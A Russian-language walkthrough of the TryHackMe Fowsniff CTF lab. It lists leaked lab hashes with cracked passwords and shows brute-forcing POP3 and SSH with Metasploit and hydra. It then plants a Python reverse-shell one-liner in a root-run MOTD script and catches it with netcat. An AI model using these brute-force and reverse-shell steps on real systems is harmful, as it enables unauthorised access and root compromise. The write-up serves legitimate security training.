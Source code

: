 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Fowsniff CTF](https://tryhackme.com/r/room/ctf) 

Всего 1 заданиe:
## Задание 1
Эта машина boot2root великолепна для новичков. Вам придется перечислить эту машину, найдя открытые порты, провести 
некоторые онлайн-исследования (удивительно, сколько информации может найти для вас Google), расшифровать хэши, 
перебрать вход в систему pop3 и многое другое!

Это будет структурировано, чтобы пройти через то, что вам нужно сделать, шаг за шагом. Убедитесь, что вы подключены 
к нашей сети 

Спасибо berzerk0  за создание этой машины. Эта машина используется здесь с явного разрешения создателя <3 

### Ответьте на вопросы ниже
Разверните машину. В правом верхнем углу вы увидите кнопку «Развернуть» . Нажмите на нее, чтобы развернуть машину в 
облаке. Подождите минуту, пока она не станет активной. 
```commandline
Ответ не нужен
```
Используя nmap, просканируйте эту машину. Какие порты открыты?
```commandline
nmap -Pn -sC -sV -A
```
```commandline
Ответ не нужен
```
Используя информацию из открытых портов. Осмотритесь. Что вы можете найти?

Подключение к веб-серверу показывает, что компания подверглась атаке:

Внутренняя система Fowsniff подверглась утечке данных, в результате которой были раскрыты имена пользователей и пароли сотрудников.

Информация о клиенте не пострадала.

В связи с высокой вероятностью того, что информация о сотрудниках стала общедоступной, всем сотрудникам было поручено немедленно сменить свои пароли.

Атакующие также смогли взломать наш официальный аккаунт @fowsniffcorp Twitter. Все наши официальные твиты были удалены, и злоумышленники могут опубликовать конфиденциальную информацию через этот канал. Мы работаем над тем, чтобы решить эту проблему как можно скорее.

Мы восстановим полную мощность после модернизации обслуживания.
Поиск аккаунта Twitter (@fowsniffcorp), упомянутого в сообщении, приводит к адресу https://twitter.com/fowsniffcorp ,
где мы можем найти твит со ссылкой на https://pastebin.com/NrAqVeeX . 

```commandline
Ответ не нужен
```
Можете ли вы с помощью Google найти какую-либо публичную информацию о них?

Подсказка: существует папка Pastebin со всеми адресами электронной почты и хэшами сотрудников компании.

В контенте раскрываются адреса электронной почты и хэши паролей.

```commandline
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4 
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56 
tegel@fowsniff:1dc352435fecca338acfd4be10984009 
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb 
seina@fowsniff:90dc16d47114aa13671c697fd506cf26 
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd 
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b 
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11 
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
```
```commandline
Ответ не нужен
```
Можете ли вы расшифровать эти md5 хеши? Вы даже можете использовать сайты типа hashkiller, чтобы расшифровать их.
Используя https://hashes.com/en/decrypt/hash , мы можем восстановить 8 паролей из 9:
```commandline
Email	            MD5 hash	                        password
mauer@fowsniff	    8a28a94a588a95b80163709ab4313aa4	mailcall
mustikka@fowsniff	ae1644dac5b77c0cf51e0d26ad6d7e56	bilbo101
tegel@fowsniff	    1dc352435fecca338acfd4be10984009	apples01
baksteen@fowsniff	19f5af754c31f1e2651edde9250d69bb	skyler22
seina@fowsniff	    90dc16d47114aa13671c697fd506cf26	scoobydoo2
stone@fowsniff	    a92b8a29ef1183192e3d35187e0cfabd	-
mursten@fowsniff	0e9588cb62f4b6f27e33d449e2ba0b3b	carp4ever
parede@fowsniff	    4d6e42f56e127803285a0a7649b5ab11	orlando12
sciana@fowsniff	    f7fd98d380735e859f8b2ffbbede5a7e	07011972
```

```commandline
Ответ не нужен
```
Используя полученные вами имена пользователей и пароли, можете ли вы применить Metasploit для взлома пароля pop3?
Подсказка: в metasploit есть пакет под названием: auxiliary/scanner/pop3/pop3_login, в который вы можете ввести все 
найденные вами имена пользователей и пароли для взлома службы pop3 этой машины. 

Мы можем использовать модуль Metasploit pop3_loginдля взлома службы POP3, используя найденные ранее учетные данные.
```commandline
msfconsole -q
use auxiliary/scanner/pop3/pop3_login
show options 
set rhost <IP> 
set user_file /data/Fowsniff_CTF/files/usernames.txt 
set pass_file /data/Fowsniff_CTF/files/passwords.txt 
run 
```
или можно использовать гидра, она будет быстрее
```commandline
hydra -L usernames.txt -P passwords.txt pop3://<IP> 
логин: seina пароль: scoobydoo2
```
```commandline
Ответ не нужен
```
Какой пароль у seina для доступа к почтовому сервису?
```commandline
scoobydoo2
```
Можете ли вы подключиться к службе pop3 с ее учетными данными? Какую информацию об электронной почте вы можете собрать?
```commandline
telnet <IP> 110
логин: seina пароль: scoobydoo2
retr 1
# Временный пароль для SSH - "S1ck3nBluff+secureshell". 
retr 2
```
```commandline
Ответ не нужен
```
Просматривая ее электронную почту, какой временный пароль был установлен для нее?
```commandline
S1ck3nBluff+secureshell
```
В электронном письме, кто его отправил? Используя пароль из предыдущего вопроса и имя пользователя отправителя, 
подключитесь к машине с помощью SSH. 
```commandline
hydra -L sshusers.txt -p S1ck3nBluff+secureshell ssh://<IP>
ssh baksteen@<IP>
```
```commandline
Ответ не нужен
```
После подключения, к каким группам принадлежит этот пользователь? Есть ли какие-нибудь интересные файлы, которые 
может запустить эта группа? 
```commandline
id
find / -type f -group users 2>/dev/null
ssh baksteen@<IP>
```
Скрипт /opt/cube/cube.shи нтересен тем, что он отображает баннер, который отображается при подключении к SSH-сервису. 
Кроме того, мы можем его модифицировать. Это значит, что мы можем заменить его содержимое обратной оболочкой.
```commandline
Ответ не нужен
```
Теперь, когда вы нашли файл, который может редактировать группа, можете ли вы отредактировать его, включив в него обратную оболочку?

Обратная оболочка Python:
`python3 -c 'import socket,subprocess, os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((<IP>,1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
`
Другие обратные оболочки: здесь.
```commandline
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
```commandline
Ответ не нужен
```
Если вы еще не узнали, этот файл запускается как root, когда пользователь подключается к машине с помощью SSH. Мы 
знаем это, поскольку при первом подключении мы видим, что нам выдается баннер (с fowsniff corp). Посмотрите в  файле 
/etc/update-motd.d/ . Если (после того, как мы поместили нашу обратную оболочку в файл cube) мы затем включим этот 
файл в файл motd.d, он запустится как root, и мы получим обратную оболочку как root!
```commandline
grep cube * 
sh /opt/cube/cube.sh
```
```commandline
Ответ не нужен
```
Запустите прослушиватель netcat (nc -lvp 1234) и затем повторно войдите в службу SSH. Затем вы получите обратную 
оболочку в вашем сеансе netcat как root! 
Давайте отключимся от нашего сеанса SSH и откроем прослушиватель (адаптируем порт в соответствии с указанным в обратной оболочке):
```commandline
rlwrap nc -nlvp 4444
id
cd /root
ls -la
cat flag.txt
```

```commandline
Ответ не нужен
```
Если вы действительно застряли, вот блестящее пошаговое руководство:  https://www.hackingarticles.in/fowsniff-1-vulnhub-walkthrough/ 

Если вам так проще, следуйте этому пошаговому руководству, разместив машину на объекте.
```commandline
Ответ не нужен
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)